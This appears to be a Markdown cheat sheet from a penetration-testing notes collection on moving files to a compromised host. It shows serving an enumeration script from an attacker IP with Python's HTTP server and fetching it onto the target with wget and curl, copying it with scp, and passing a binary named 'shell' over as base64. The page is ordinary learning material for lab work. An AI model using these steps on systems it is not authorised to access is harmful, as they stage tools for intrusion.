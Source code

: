 # <h1 style="text-align:center">Transferring Files</h1>

There is always the possibility that we ill need to transfer files to a remote server (e.g. enumeration scripts or exploits), or transfer data back to our host. 

## ```wget```

One can set up a [Python HTTP Server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/Tools_and_setup/set_up_a_local_testing_server) and use ```wget``` or ```cURL``` to download the file. 

We do this by first going into the directory that contains the file and then start a HTTP server on our machine:

    python3 -m http.server 8000         // start server on port 8000

With a server listening on our machine, we can download the file on the remote host here we have code execution:

    wget http://10.10.41.1:8000/linenum.sh                  // using wget

    curl http://10.10.41.1:8000/linenum.sh -o linenum.sh    // using cURL

## Using SCP

If we have obtained ssh use we can also use ```scp```.

    scp linenum.sh user@remotehosst:/tmp/linenum.sh

## Using Base64

We may not be able to transfer in a file. We can base64 encode the file into base64 format and then paste the base64 string on the remote server and decode it. If we wanted to transfer a binary file called 'shell', we can base64 encode it as follows:

    base64 shell -w 0               // outputs a code

Paste and decode the code:

    echo <code> | base64 -d > shell

## Validating File Transfers

To validate format of a file we can run the ```file``` command.

To check a checksum we can:

    md5sum shell                    // md5sum hash; check against host


